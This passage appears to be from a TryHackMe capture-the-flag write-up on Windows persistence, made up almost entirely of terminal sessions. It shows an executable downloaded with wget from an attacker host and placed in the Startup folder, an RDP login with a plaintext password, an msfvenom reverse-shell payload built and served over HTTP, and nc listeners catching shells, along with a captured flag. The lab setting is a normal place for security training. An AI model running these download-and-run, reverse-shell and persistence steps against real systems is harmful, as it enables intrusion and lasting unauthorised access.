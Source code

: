 ```

PS C:\Users\Administrator> wget http://10.11.81.220:1337/revshell.exe -o revshell.exe
PS C:\Users\Administrator> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ xfreerdp /u:Administrator /p:'Passwd123' /v:10.10.170.100 /size:85%


┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4450
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4450
Ncat: Listening on 0.0.0.0:4450
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:50007.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag10.exe
.\flag10.exe
THM{NO_NO_AFTER_YOU}

```

Insert flag10 here
*THM{NO_NO_AFTER_YOU}*

```
┌──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4451 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ ls
index.raw     liv0ff.ps1          payload.hta   rev-svc2.exe  thm.hta
launcher.bat  live0fftheland.dll  revshell.exe  rev-svc.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 17:38:29] "GET /revshell.exe HTTP/1.1" 200 -

create a new exapndable string value

sign out

┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4451
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4451
Ncat: Listening on 0.0.0.0:4451
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:50035.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
```